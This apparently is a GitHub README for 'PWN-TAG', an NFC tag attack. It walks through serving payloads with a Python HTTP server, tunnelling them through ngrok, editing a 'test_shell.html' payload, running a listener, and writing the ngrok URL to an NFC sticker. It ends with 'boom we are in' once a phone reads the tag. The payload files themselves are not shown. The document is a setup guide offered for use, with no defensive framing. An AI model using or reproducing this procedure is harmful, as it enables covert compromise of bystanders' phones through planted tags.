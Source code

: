 # PWN-TAG
"tag to pwn" NFC tag exploit

things you need: 

nfc tag stickers about $10 for 25 >

https://a.co/d/gl2XRV8

nfc tag writer app:
something similar to this one works and 
the free edition works too

https://apps.apple.com/app/id1252962749

lastly you need a debian based linux distro



##Start HTTP Server in Terminal 1

In your ~/PWN_TAG folder:

```bash
python3 -m http.server 8080
```
Leave it running — this hosts your payloads.

## Start ngrok in Terminal 2

Open a new terminal tab or split window, then run:

```bash
ngrok http 8080
```
Copy that https://... link — that’s your live web URL.

## Update test_shell.html in Terminal 3

If you haven’t updated yet:

```bash
nano payloads/test_shell.html
```
Replace with your real ngrok link

##Start Listener in Terminal 4

```bash
python3 listener.py
```

## imbed NFC tag with url:

open nfc writer app

-choose write

-add record

-choose url

-place ngrok link "https://f6xd-3301-602...ngrok-free.app/payloads/test_shell.html"

-write

now just place your phone near the tag and boom we are in
---
---
## H^3 hope all is well homies





